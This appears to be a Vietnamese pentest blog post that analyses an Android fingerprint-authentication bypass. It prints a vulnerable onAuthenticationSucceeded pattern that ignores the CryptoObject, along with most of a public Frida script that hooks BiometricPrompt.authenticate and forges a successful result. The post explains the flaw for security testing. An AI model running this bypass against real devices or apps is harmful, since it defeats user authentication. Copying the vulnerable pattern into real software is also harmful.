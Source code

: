 ```yaml
---
title: "FINGERPRINT BYPASS"
layout: single
last_modified_at: 22-01-2024T16:08:30
categories:
  - Blog
tags:
  - Security Mobile
  - Hacking Mobile
  - Pentest Mobile

toc: true
toc_label: "Content Security"
toc_sticky: true
---
```


**Date created: Fri, 29-12-2023 08:30**

## <span class="text">Introduce</span><span class="terminal">&nbsp;</span>

Biometric authentication được thực hiện bằng cách sử dụng class `FingerprintManager` hoặc `BiometricPrompt` để quản lý cơ chế authentication và hộp thoại thông báo của ứng dụng yêu cầu người dùng authenticate.
Class `FingerprintManager` được giới thiệu trong API 23 chỉ hỗ trợ xác thực dấu vân tay và không dùng nữa kể từ API 28. Thay vào đó `BiometricPrompt` được phát hành và cách sử dụng cũng khá tương đồng với `FingerprintManager`.

## Biometric/Fingerprint authentication

Theo như tài liệu của Android, class `BiometricPrompt` có một phương thức rất quan trọng đó là `authenticate`.

```java
public void authenticate (BiometricPrompt.CryptoObject crypto, CancellationSignal cancel, Executor executor, BiometricPrompt.AuthenticationCallback callback)
```

Phương thức này sẽ khởi động phần cứng biometric, hiển thị hộp thoại do hệ thống cung cấp yêu cầu sinh trắc học của người dùng và bắt đầu quét để xác thực sinh trắc học. Phương thức này bao gồm các đối số(arguments) lần lượt là:

- [ `crypto`](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.CryptoObject): Đối tượng này chứa tham chiếu tới entry trong keystore cần được mở khoá. Để triển khai xác thực sinh trắc học một cách an toàn, keystore key bên trong đối tượng `crypto` phải được sử dụng cho một số các hoạt động cryptographic quan trọng của ứng dụng.
- [`cancel`](https://developer.android.com/reference/android/os/CancellationSignal): Đối tượng này dùng để huỷ việc xác thực.
- [`executor`](https://developer.android.com/reference/java/util/concurrent/Executor): Executor này sẽ chịu trách nhiệm xử lý các sự kiện của callback.
- [`callback`](https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback): Đối tượng này là một `structure with callbacks` sẽ nhận các sự kiện xác thực được dispatch thông qua Executor.
  Trong đó hai đối số quan trọng mà cần chú ý dó là `crypto` và `callback` vì nó chịu trách nhiệm liên quan tới vấn đề xác thực của phương thức này.
  Tham số `BiometricPrompt.AuthenticationCallback` được sử dụng như một callback structure thực hiện các phương thức như là:
- [onAuthenticationSucceeded(BiometricPrompt.AuthenticationResult result)](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationSucceeded(android.hardware.biometrics.BiometricPrompt.AuthenticationResult)>)
- [onAuthenticationError](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationError(int,%20java.lang.CharSequence)>)()
- [onAuthenticationFailed](<https://developer.android.com/reference/android/hardware/biometrics/BiometricPrompt.AuthenticationCallback.html#onAuthenticationFailed()>)()
  Trong đó phương thức `onAuthenticationSucceeded` sẽ kích hoạt khi người dùng được hệ thống xác thực thành công. Phương thức mở khoá ứng dụng thường có sẵn bên trong cái phương thức `callback` này.
  Ý tưởng khai thác cho vấn đề này là thực hiện hooking vào process của ứng dụng và thực hiện gọi trực tiếp phương thức `onAuthenticationSucceded` từ đó ứng dụng sẽ được mở khoá ngay lập tức mà không cần cung cấp sinh trắc học hợp lệ.
  Việc triển khai của phương thức `onAuthenticationSucceded` có lỗ hổng thường sẽ tương tự như đoạn code sau:

```java
public void onAuthenticationSucceeded(FingerprintManager.AuthenticationResult result) {
// Hiển thị thông báo truy cập thành công
Toast.makeText(getActivity(), "Access granted",Toast.LENGTH_LONG).show();
// Phương thức truy cập có sẵn bên trong phương thức được gọi
accessGranted();
}
```

Ta có thể thấy một điều rằng đoạn code ở trên không hề sử dụng bất kỳ đối tượng `CryptoObject` nào được truyền vào `AuthenticationResult` thay vào đó chỉ giả xử rằng quá trình xác thực đã thành công vì phương thức `onAuthenticationSucceded` được gọi.

## Phân tích script dùng để bypass fingerprint-bypass của [WithSecureLabs](https://github.com/WithSecureLabs)

Như đã mô tả ở trên, hướng tiếp cận của script là thực hiện hook vào callback method `onAuthenticationSucceded` để bypass qua việc xác thực sinh trắc học dựa vào cơ chế cho phép truy cập mà không cần xem xét tới đối tượng `cryptoObject`.

```javascript
function getAuthResult(resultObj, cryptoInst) {
  try {
    var authenticationResultInst = resultObj.$new(cryptoInst, null, 0, false);
  } catch (error) {
    try {
      var authenticationResultInst = resultObj.$new(cryptoInst, null, 0);
    } catch (error) {
      try {
        var authenticationResultInst = resultObj.$new(cryptoInst, null);
      } catch (error) {
        try {
          var authenticationResultInst = resultObj.$new(cryptoInst, 0);
        } catch (error) {
          var authenticationResultInst = resultObj.$new(cryptoInst);
        }
      }
    }
  }
  console.log(
    "cryptoInst:, " + cryptoInst + " class: " + cryptoInst.$className
  );
  return authenticationResultInst;
}
```

Script trước tiên sẽ định nghĩa ra hàm `getAuthResult` nhận vào hai tham số (`resultObj` và `cryptoInst`). Hàm này sẽ cố gắng tạo ra một thể hiện(instance) `AuthenticationResult` của class `android.hardware.biometrics.BiometricPrompt$AuthenticationResult` bằng cách thử kết hợp nhiều đối số của phương thức khởi tạo hàm(constructor). Mục đích là để xử lý các constructor signatures khác nhau có thể có trong các phiên bản hoặc các triển khai(implementations) Android khác nhau.

```javascript
function getBiometricPromptAuthResult() {
  var sweet_cipher = null;
  var cryptoObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$CryptoObject"
  );
  var cryptoInst = cryptoObj.$new(sweet_cipher);
  var authenticationResultObj = Java.use(
    "android.hardware.biometrics.BiometricPrompt$AuthenticationResult"
  );
  var authenticationResultInst = getAuthResult(
    authenticationResultObj,
    cryptoInst
  );
  return authenticationResultInst;
}
```

Tiếp theo, script định nghĩa một hàm tên là `getBiometricPromptAuthResult`, để tạo ra một thể hiện của `BiometricPrompt$AuthenticationResult`. Đồng thời cũng tạo ra một thể hiện mới của `BiometricPrompt$CryptoObject` với giá trị `Cipher` bằng `null`. Sau đó gọi hàm `getAuthResult` truyền vào hai tham số là `authenticationResultObj` và `cryptoInst` mới được tạo trước đó để lấy được giá trị cuối cùng của thể hiện(instance) `AuthenticationResult`.

```javascript
function hookBiometricPrompt_authenticate() {
  var biometricPrompt = Java.use("android.hardware.biometrics.BiometricPrompt")[
    "authenticate"
  ].overload(
    "android.os.CancellationSignal",
    "java.util.concurrent.Executor",
    "android.hardware.biometrics.BiometricPrompt$AuthenticationCallback"
  );

  console.log("Hooking BiometricPrompt.authenticate()...");

  biometricPrompt.implementation = function (
    cancellationSignal,
    executor,
    callback
  ) {
    console.log(
      "[BiometricPrompt.BiometricPrompt()]: cancellationSignal: " +
        cancellationSignal +
        ", executor: " +
        ", callback: " +
        callback
    );

    var authenticationResultInst = getBiometricPromptAuthResult();

    callback.onAuthenticationSucceeded(authenticationResultInst);
  };
}
```

Hàm `hookBiometricPrompt_authenticate`, được định nghĩa để thực hiện hook vào phương thức `authenticate` của class `android.hardware.biometrics.BiometricPrompt` có đối số lần lượt là `('android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback')`. Tiếp đó thực hiện in ra các tham số của hàm `biometricPrompt.authenticate` đó và gọi hàm `getBiometricPromptAuthResult` đã được định nghĩa ở trên, lưu vào biến `authenticationResultInst`. Cuối cùng là gọi phương thức callback `onAuthenticationSucceeded` và truyền vào biến `authenticationResultInst`.

```
function hookBiometricPrompt_authenticate2() {

    var biometricPrompt = Java.use('android.hardware.biometrics.BiometricPrompt')['authenticate'].overload('android.hardware.biometrics.BiometricPrompt$CryptoObject', 'android.os.CancellationSignal', 'java.util.concurrent.Executor', 'android.hardware.biometrics.BiometricPrompt$AuthenticationCallback');

    console.log("Hooking BiometricPrompt.authenticate2()...");

    biometricPrompt.implementation = function (crypto, cancellationSignal, executor, callback) {

        console.log("[BiometricPrompt.BiometricPrompt2()]: crypto:" + crypto + ", cancellationSignal: " + cancellationSignal + ", executor: " + ", callback: " + callback);

        var authenticationResultInst = getBiometricPromptAuthResult();

        callback.onAuthenticationSucceeded(authenticationResultInst);

    }

}
```

Hàm `hookBiometricPrompt_authenticate2`, cũng tương tự nhưng đối số sẽ bao gồm thêm `('android.hardware.biometrics.BiometricPrompt$CryptoObject')`. Đối tượng này như đã được trình bày ở trên sẽ chịu trách nhiệm về các vấn đề liên quan đến việc tham chiếu tới keystore entry của ứng dụng.

## Conclusion

Bên trên là bài báo cáo chi tiết về nguyên do dẫn đến lỗi `Biometric authentication` này cũng như luồng thực thi của script frida fingerprint bypass của WithSecureLabs.

---

References:

- [How secure is your android keystore authentication](https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication)

---
